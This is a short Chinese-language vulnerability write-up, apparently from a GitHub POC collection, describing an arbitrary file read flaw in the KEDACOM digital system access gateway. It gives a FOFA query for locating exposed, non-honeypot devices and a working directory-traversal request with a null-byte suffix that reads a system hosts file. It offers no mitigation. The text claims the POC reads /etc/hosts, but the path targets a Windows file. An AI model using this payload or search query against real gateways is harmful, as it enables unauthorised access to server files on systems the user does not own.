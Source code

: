 # KEDACOM 数字系统接入网关 任意文件读取漏洞

## 漏洞描述

KEDACOM 数字系统接入网关 存在任意文件读取漏洞，攻击者通过构造请求可以读取服务器任意文件

## 漏洞影响

> [!NOTE]
>
> KEDACOM 数字系统接入网关

## FOFA

> [!NOTE]
>
> (app="KEDACOM-DVR接入网关") && (is_honeypot=false && is_fraud=false)

## 漏洞复现

登录页面如下

![](KEDACOM数字系统接入网关-任意文件读取漏洞.assets/1627363592296436.jpg)

使用POC读取 /etc/hosts

```
/gatewayweb/FileDownloadServlet?fileName=test.txt&filePath=../../../../../../../../../../Windows/System32/drivers/etc/hosts%00.jpg&type=2
```

![](KEDACOM数字系统接入网关-任意文件读取漏洞.assets/1627363592639203.jpg)